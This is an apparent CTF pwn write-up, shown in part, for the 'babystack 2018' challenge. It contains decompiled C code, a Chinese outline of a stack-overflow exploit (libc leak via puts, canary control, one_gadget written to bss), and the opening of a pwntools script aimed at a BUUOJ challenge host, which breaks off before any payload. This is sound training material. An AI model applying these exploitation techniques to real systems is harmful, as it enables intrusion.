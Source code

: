 start\_routine()

```bash
void *__fastcall start_routine(void *a1)
{
  unsigned __int64 v2; // [rsp+8h] [rbp-1018h]
  char s[4104]; // [rsp+10h] [rbp-1010h] BYREF
  unsigned __int64 v4; // [rsp+1018h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  memset(s, 0, 0x1000uLL);
  puts("Welcome to babystack 2018!");
  puts("How many bytes do you want to send?");
  v2 = sub_400906();
  if ( v2 <= 0x10000 )
  {
    sub_400957(0LL, s, v2);
    puts("It's time to say goodbye.");
  }
  else
  {
    puts("You are greedy!");
  }
  return 0LL;
}
```

分析一下思路

-   栈溢出控制返回地址执行一个 puts 泄露 libc 地址，一个 read，控制 canary
-   向 bss 段写入 onegadget 地址

exp:

```bash
#coding=utf-8 
import os
import sys
import time
from pwn import *
from ctypes import *

context.log_level='debug'
context.arch='amd64'

p=remote("node4.buuoj.cn",26732)
#p=process('./pwn')
elf = ELF('./pwn')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

s       = lambda data               :p.send(data)
ss      = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sls     = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
def dbg():
```